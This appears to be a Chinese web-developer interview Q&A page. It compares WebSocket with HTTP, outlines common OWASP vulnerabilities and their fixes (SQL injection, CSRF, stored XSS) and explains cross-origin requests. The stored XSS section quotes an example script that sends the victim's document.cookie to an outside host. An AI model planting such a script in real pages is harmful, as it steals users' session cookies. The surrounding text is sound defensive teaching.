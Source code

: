 ## WebSocket与HTTP的关系

```text
相同点：
1. 都是一样基于TCP的，都是可靠性传输协议。
2. 都是应用层协议。
区别：
 WebSocket是双向通信协议，模拟Socket协议，可以双向发送或接受信息。HTTP是单向的，客户端发送请求，服务器发送响应。当客户端向服务器发送请求时，该请求以HTTP形式发送，在接收到请求后，服务器会将响应发送给客户端。每个请求都与一个对应的响应相关联，在发送响应后客户端与服务器的连接会被关闭。
 websocket中服务器可以主动给客户端推送消息，而http必须先有请求再有响应。
应用场景：
WebSocket
1. 即时Web应用程序
2. 游戏应用程序
3. 聊天应用程序
HTTP
 只想获取一次数据供应用程序使用，不需要服务器主动推送消息。
```

## 常见的WEB漏洞有哪些？如何解决

常见的 WEB 漏洞一般指的是 OWASP TOP10 十大安全漏洞。比如 SQL 注入漏洞、XSS 漏洞。

-   SQL 注入 大名鼎鼎，对于 Java 而言，通过 SQL 预处理轻松解决。
-   跨站请求伪造 CSRF。攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。防范措施：1、验证 HTTP Referer 字段。2、在请求地址中添加 token 并验证。
-   存储型 XSS 保存数据时未检测包含 js 或 html 代码，照成数据被读取并加载到页面时，会触发执行 js 或 html 代码。

样例：

```java
<script>
   document.getElementById('attacker').href='http://www.abc.com/receiveCookies.h
   tml?'+document.cookie;
</script>
```

解决：通过过滤器，对请求参数中的 Value 内容进行遍历，将转义为<和>。

## 什么是跨域请求，怎么解决

浏览器收到响应数据之后，会判断响应回数据的源和当前页面的源是否是属于同源。针对不同源，如果后端没有对响应字段进行处理，则响应回的数据会被浏览器直接过滤掉,并抛出异常。

![](image/image_q1nraRA6d5.png)

协议，域名，端口三者其中存在不同都会形成跨域；故，当协议，端口，域名三者均相同时，浏览器就会认为是同源，允许加载该资源，否则为不同源。
